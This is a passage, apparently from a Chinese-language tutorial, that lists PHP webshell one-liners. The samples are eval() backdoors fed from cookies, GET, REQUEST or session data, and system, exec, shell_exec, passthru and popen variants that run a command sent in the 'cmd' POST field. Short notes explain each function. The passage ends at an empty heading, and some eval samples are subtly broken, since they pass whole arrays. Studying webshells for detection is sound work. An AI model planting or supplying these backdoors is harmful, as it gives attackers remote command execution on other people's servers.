 #### 使用其他传参方式

```php
<?php @eval($_COOKIE);?>
<?php @eval($_GET);?>
<?php @eval($_REQUEST);?>
<?php @eval($_SESSION);?>
```

#### 使用其他命令执行函数

##### system()

system()可以在系统权限允许的情况下，执行系统命令（Windows 系统和 Linux 系统均可执行）

```php
<?php @system($_POST['cmd']);?>
```

##### exec()

exec() 函数可以执行系统命令，但它不会直接输出结果，而是将执行的结果保存到数组中

```php
<?php
exec( $_POST['cmd'] , $result );
print_r($result); 
?>
```

##### shell_exec()

shell_exec() 可以执行系统命令并返回命令执行结果的字符串

```php
echo shell_exec($_POST['cmd']); 
```

##### passthru()

passthru() 可以执行系统命令并将执行结果输出到页面中 

```php
passthru($_POST['cmd']);   
```

>与 system() 函数不同的是，它支持二进制的数据，使用时直接在参数中传递字符串类型的系统命令即可

##### popen()

popen()  函数可以执行系统命令并返回一个资源类型的变量用来存储系统命令的执行结果
故需要配合 fread() 函数来读取命令的执行结果

```php
$result = popen($_POST['cmd'], 'r');    
echo fread($result, 100);     
```

##### 反引号``

